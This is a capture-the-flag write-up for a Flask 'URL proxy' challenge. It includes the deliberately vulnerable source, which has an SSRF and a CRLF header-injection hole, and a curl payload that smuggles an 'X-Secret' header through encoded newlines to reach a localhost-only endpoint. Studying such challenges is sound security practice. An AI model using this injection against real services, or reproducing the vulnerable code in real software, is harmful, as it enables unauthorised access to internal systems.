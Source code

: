 # Gynvael Coldwind ExpressJS challenge 1

Source: https://twitter.com/gynvael/status/1256352469795430407

## Challenge

The challenge is a page with a form that contains two inputs - `URL` and `Language code` and exposes the following source code:
```python
#!/usr/bin/python3
from flask import Flask, request, Response, render_template_string
from urllib.parse import urlparse
import socket
import os

app = Flask(__name__)
FLAG = os.environ.get('FLAG', "???")

with open("task.py") as f:
  SOURCE = f.read()

@app.route('/secret')
def secret():
  if request.remote_addr != "127.0.0.1":
    return "Access denied!"

  if request.headers.get("X-Secret", "") != "YEAH":
    return "Nope."

  return f"GOOD WORK! Flag is {FLAG}"

@app.route('/')
def index():
  return render_template_string(
      """
      <html>
        <body>
          <h1>URL proxy with language preference!</h1>
          <form action="/fetch" method="POST">
            <p>URL: <input name="url" value="http://gynvael.coldwind.pl/"></p>
            <p>Language code: <input name="lang" value="en-US"></p>
            <p><input type="submit"></p>
          </form>
          <pre>
Task source:
{{ src }}
          </pre>
        </body>
      </html>
      """, src=SOURCE)

@app.route('/fetch', methods=["POST"])
def fetch():
  url = request.form.get("url", "")
  lang = request.form.get("lang", "en-US")

  if not url:
    return "URL must be provided"

  data = fetch_url(url, lang)
  if data is None:
    return "Failed."

  return Response(data, mimetype="text/plain;charset=utf-8")

def fetch_url(url, lang):
  o = urlparse(url)

  req = '\r\n'.join([
    f"GET {o.path} HTTP/1.1",
    f"Host: {o.netloc}",
    f"Connection: close",
    f"Accept-Language: {lang}",
    "",
    ""
  ])

  res = o.netloc.split(':')
  if len(res) == 1:
    host = res[0]
    port = 80
  else:
    host = res[0]
    port = int(res[1])

  data = b""
  with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((host, port))
    s.sendall(req.encode('utf-8'))
    while True:
      data_part = s.recv(1024)
      if not data_part:
        break
      data += data_part

  return data

if __name__ == "__main__":
  app.run(debug=False, host="0.0.0.0")
```

## Analysis

Function `fetch` sends a request on behalf of the web service towards specified `URL` and adds the `Language code` into the `Accept-Language` HTTP header. This points to a possible Server side request forgery (SSRF). 

Checking the `secret` function, we can see that it is mapped to `/secret` and contains two checks:
- `request.remote_addr != "127.0.0.1"`
- `request.headers.get("X-Secret", "") != "YEAH"`

The first condition is easily bypassed since we can specify `127.0.0.1` in the `URL`. The second condition checks if there is an HTTP header `X-Secret` present and contains the value `YEAH`. The ability to inject the `X-Secret` header is related with `fetch_url` function.

The `fetch_url` contains the following:
```python
req = '\r\n'.join([
    f"GET {o.path} HTTP/1.1",
    f"Host: {o.netloc}",
    f"Connection: close",
    f"Accept-Language: {lang}",
    "",
    ""
])
```

Our `Language code` input will be specified as `Accept-Language` HTTP header. Great. What if we specify our own `\r\n` in the `Language code` input?

Let's check this with python3:
```python
>>> lang = 'en-US\r\nX-Secret: YEAH'
>>> req = '\r\n'.join([
... f"GET / HTTP/1.1",
... f"Accept-Language: {lang}",
... ""
... ])
>>> req
'GET / HTTP/1.1\r\nAccept-Language: en-US\r\nX-Secret: YEAH\r\n'
>>> print(req)
GET / HTTP/1.1
Accept-Language: en-US
X-Secret: YEAH

>>> 
```

Looks good. In order to successfully get the flag, we will have to send a `Language code` that contains `\r\n` by encoding them. This can be easily done with `curl`.

## Solution

To solve the challenge specify the `URL` as `http://127.0.0.1:5000` and `Language code` as `en-US\r\nX-Secret: YEAH\r\n` in your POST request to `/fetch`.

```sh
$ curl -d 'url=http%3A%2F%2F127.0.0.1%3A5000%2Fsecret&lang=en-US%0D%0AX-Secret%3A%20YEAH%0D%0A' http://35.204.139.205:5000/fetch
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 42
Server: Werkzeug/1.0.1 Python/3.6.9
Date: Wed, 13 May 2020 14:47:25 GMT

GOOD WORK! Flag is CTF{ThesePeskyNewLines}
```
